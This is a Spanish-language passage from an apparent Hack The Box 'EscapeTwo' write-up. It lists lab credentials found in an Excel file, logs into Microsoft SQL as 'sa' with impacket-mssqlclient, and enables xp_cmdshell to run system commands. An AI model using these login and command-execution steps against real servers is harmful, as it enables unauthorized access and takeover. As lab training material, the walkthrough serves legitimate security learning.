 Si entramos al excel `accounts.xlsx` podemos encontrar un archivo llamado `SharedStrings.xml` .&#x20;

Este archivo contiene lo que parece ser cuatro 4 usuarios con sus usernames y contraseñas. Si lo representamos en formato tabla quedaría así

<table><thead><tr><th width="114">First Name</th><th width="114">Last Name</th><th>Email</th><th width="130">Username</th><th>Password</th></tr></thead><tbody><tr><td>Angela</td><td>Martin</td><td>angela@sequel.htb</td><td>angela</td><td>0fwz704mSpurtI9g</td></tr><tr><td>Oscar</td><td>Martinez</td><td>oscar@sequel.htb</td><td>oscar</td><td>86LxLBMgEwAKUnBG</td></tr><tr><td>Kevin</td><td>Malone</td><td>kevin@sequel.htb</td><td>kevin</td><td>Md9W1q1E5bZnVvDo</td></tr><tr><td>NULL</td><td>sa</td><td>sa@sequel.htb</td><td>sa</td><td>MSSQLP@ssw0rd!</td></tr></tbody></table>

## Explotación

### Microsoft SQL

Si probamos los usuarios y las contraseñas en el servicio de Microsoft SQL podemos ver que el usuario `sa` **es valido. Con el siguiente comando podemos acceder:**

```bash
impacket-mssqlclient 'sa:MSSQLP@ssw0rd!'@10.10.11.51
```

Ahora que tenemos acceso a la consola de Microsoft SQL podemos buscar como lograr ejecutar comandos de la cmd, se hace de la siguiente manera:

```sql
exec xp_cmdshell "whoami"
```

Si intentamos este comando veremos que no nos deja ya que "sys.xp\_cmdshell" está desactivado.&#x20;

<figure><img src="htb/img/EscapeTwo/EscapeTwo4.png" alt=""><figcaption></figcaption></figure>

Si buscamos como activarlo encontraremos el siguiente comando.

```sql
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

Si lo ejecutamos y luego volvemos a ejecutar el comando anterior veremos que ahora si funciona.

<figure><img src="htb/img/EscapeTwo/EscapeTwo5.png" alt=""><figcaption></figcaption></figure>
